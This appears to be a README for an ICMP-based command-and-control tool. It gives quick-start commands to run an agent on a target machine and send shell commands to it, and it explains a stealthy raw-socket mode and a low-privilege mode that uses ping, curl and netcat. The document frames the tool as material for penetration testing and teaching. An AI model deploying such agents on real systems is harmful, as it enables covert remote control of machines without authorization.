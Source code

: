 ## Quick Start

### Option 1: Full Functionality (Requires Root)
```bash
# Start the agent (target machine)
sudo python3 agents/icmp_agent.py

# Control from C2 server
python3 controllers/icmp_c2_server.py <TARGET_IP> cmd 'whoami'
```

### Option 2: Low-Privilege Mode (No Root Required)
```bash
# Start the low-privilege agent (target machine)
python3 agents/low_privilege_agent.py <CONTROLLER_IP>

# Control from low-privilege controller
python3 controllers/low_privilege_controller.py <TARGET_IP> 'whoami'
```

## Operating Modes: Full vs Low-Privilege

### Why Two Different Modes?

The ICMP C2 system provides two distinct operating modes to accommodate different environments and privilege levels:

#### **Full Mode (Root Privileges Required)**
- **Purpose**: Complete ICMP-based C2 functionality with maximum stealth
- **Requirements**: Root/Administrator privileges
- **Use Case**: Professional security testing, penetration testing, research environments

#### **Low-Privilege Mode (No Root Required)**
- **Purpose**: Educational and testing environments where elevated privileges aren't available
- **Requirements**: Standard user privileges only
- **Use Case**: Learning environments, restricted systems, educational demonstrations

### Technical Differences Explained

#### **1. Network Access Level**

**Full Mode:**
- **Raw Socket Access**: Direct access to network interfaces for packet creation and capture
- **Custom ICMP Packets**: Complete control over ICMP packet structure, headers, and payloads
- **Real-time Packet Sniffing**: Immediate capture and processing of incoming ICMP packets
- **Why Required**: Operating systems restrict raw socket access to prevent unauthorized network manipulation

**Low-Privilege Mode:**
- **Standard System Tools**: Uses existing system utilities (ping, curl, netcat)
- **Indirect Communication**: Relies on environment variables, temporary files, and standard protocols
- **Polling-based Detection**: Periodic checking for commands rather than real-time capture
- **Why Limited**: Standard user privileges cannot create custom network packets or capture raw traffic
